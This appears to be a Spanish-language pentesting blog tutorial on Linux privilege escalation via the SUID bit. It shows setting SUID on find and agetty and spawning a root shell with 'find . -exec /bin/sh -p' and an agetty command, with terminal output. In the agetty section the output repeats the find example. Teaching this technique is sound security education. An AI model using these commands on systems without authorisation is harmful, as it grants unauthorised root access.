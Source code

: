 ```yaml
---
layout: single
title: Escalando Privilegios - Iniciando 1.1.1
excerpt: "Escalar privilegios - consiste en abrirse camino a través de vulnerabilidades del sistema para tener acceso a *comandos* que nos permitan manipular la máquina sin restricción alguna. Hablamos de *escalar* porque se inicia desde un nivel inferior de comandos muy limitados. En esta oportunidad presentaremos un caso en el que se aprovecha la vulnerabilidad *bit SUID* el cual es un permiso que cuando se le otorga a un *fichero* permite que quien lo ejecute pueda tener los mismos permisos del creador."
date: 2022-03-13
classes: wide
header:
  teaser: /assets/images/htb-write-Esprivilegios/Escprivilegios.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - vulnerabilidad
  - infosec
tags:  
  - privilegios
  - basic
  - escalar
  - suid
  - vulnerabilidad
---
```


![](/assets/images/htb-write-Esprivilegios/Escprivilegios.png)

Escalar privilegios - consiste en abrirse camino a través de vulnerabilidades del sistema para tener acceso a *comandos* que nos permitan manipular la máquina sin restricción alguna. Hablamos de *escalar* porque se inicia desde un nivel inferior de comandos   muy limitados. En esta oportunidad presentaremos un caso en el que se aprovecha la vulnerabilidad *bit SUID (Set ID de Usuario en Ejecución)* el cual es un permiso que cuando se le otorga a un *fichero* permite que quien lo ejecute pueda tener los mismos permisos del creador del archivo. 


Conocimientos necesarios

-Permisos, derechos y atributos en Linux
-Permisos especiales : SUID


Si el creador del fichero es el usuario `root` podremos acceder a sus privilegios si este por ejemplo le asigna al comando `find` (es una herramienta de busqueda) el permiso SUID 

`❯ chmod 4755 /usr/bin/find`

Observaremos que la `X` (execute) de los permisos del `propietario` es remplazada por una `s` (SetUID)

```
❯ which find | xargs ls -l
-rwxr-xr-x 1 root root 311008 ene  9  2021 /usr/bin/find
❯ chmod 4755 /usr/bin/find
❯ which find | xargs ls -l
-rwsr-xr-x 1 root root 311008 ene  9  2021 /usr/bin/find
```

Un usuario puede salir de su entorno restringido al generar un shell de sistema interactivo con la siguiente instrucción `find . -exec /bin/sh \; -quit` y tener todos los privilegios del usuario que creo el archivo (en este caso root).

```
┌─[pepito@Tahy]─[/home/tahy]
└──╼ $whoami
pepito
┌─[pepito@Tahy]─[/home/tahy]
└──╼ $find . -exec /bin/sh -p \; -quit
# whoami
root
# 
 ```

Este procedimiento se puedo aplicar para cualquier fichero, en este caso probamos la instrucción  `agetty`

```
-rwxr-xr-x 1 root root 64936 ene 20 17:10 /usr/sbin/agetty
❯ chmod 4755 /usr/sbin/agetty
❯ which agetty | xargs ls -l
-rwsr-xr-x 1 root root 64936 ene 20 17:10 /usr/sbin/agetty
```

Desde el mismo usuario "pepito" con privilegios limitados podremos acceder al usuario root sin escribir CONTRASEÑA alguna, ejecutando la siguiente linea `agetty -o -p -l /bin/sh -a root tty`

```  
┌─[pepito@Tahy]─[/home/tahy]
└──╼ $whoami
pepito
┌─[pepito@Tahy]─[/home/tahy]
└──╼ $find . -exec /bin/sh -p \; -quit
# whoami  
root
# 
```  

Siendo esta una de las vulnerabilidades más basica y primarias del pentestting.

fuentes

- [https://www.mastermind.ac/courses/introduccion-al-hacking-etico](https://www.mastermind.ac/courses/introduccion-al-hacking-etico)
- [https://www.ibiblio.org/pub/Linux/docs/LuCaS/Manuales-LuCAS/doc-curso-salamanca-admin-avanzada/html/ch08s06.html](https://www.ibiblio.org/pub/Linux/docs/LuCaS/Manuales-LuCAS/doc-curso-salamanca-admin-avanzada/html/ch08s06.html
)
- [https://www.ochobitshacenunbyte.com/2019/06/17/permisos-especiales-en-linux-sticky-bit-suid-y-sgid/](https://www.ochobitshacenunbyte.com/2019/06/17/permisos-especiales-en-linux-sticky-bit-suid-y-sgid/)

- [https://gtfobins.github.io/](https://gtfobins.github.io/)

